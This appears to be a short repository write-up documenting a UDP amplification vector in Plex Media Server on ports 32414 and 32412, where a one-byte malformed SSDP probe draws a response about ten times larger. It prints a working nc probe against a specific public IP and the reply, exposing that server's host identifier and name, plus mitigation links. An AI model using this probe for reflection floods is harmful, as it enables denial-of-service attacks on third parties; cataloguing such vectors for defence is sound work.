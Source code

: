 # Plex Media Server 
## Port: 32414 **and 32412**
## Proto: UDP
## Amplification factor: 10x
---

### Malformed requests
- Plex Media Server seems to respond with full HTTP 200 response when even a single character "M" from the Simple Service Discovery well-formed probe "M-SEARCH * HTTP/1.1" is sent.
- This leads to **only 1 byte request responding with an average of 260 bytes**, leading to an amplification factor of ~10x.

### Example request/response
 - >~# echo -ne '\x4d' |nc -u 75.133.123.68 32414
	<pre>
	HTTP/1.0 200 OK
	Content-Type: plex/media-server
	Host: 5751fff746f9471faf39a071936549c4.plex.direct
	Name: @Raflix
	Port: 32400
	Resource-Identifier: 496050be21439b3f8f6b2026152ff976433b8e18
	Updated-At: 1570103260
	Version: 1.18.0.1846-f62172e99
	</pre>


### Mitigations
- https://github.com/RasPlex/RasPlex/issues/95
- https://forums.plex.tv/t/plex-flooding-32414-and-32412/65443/2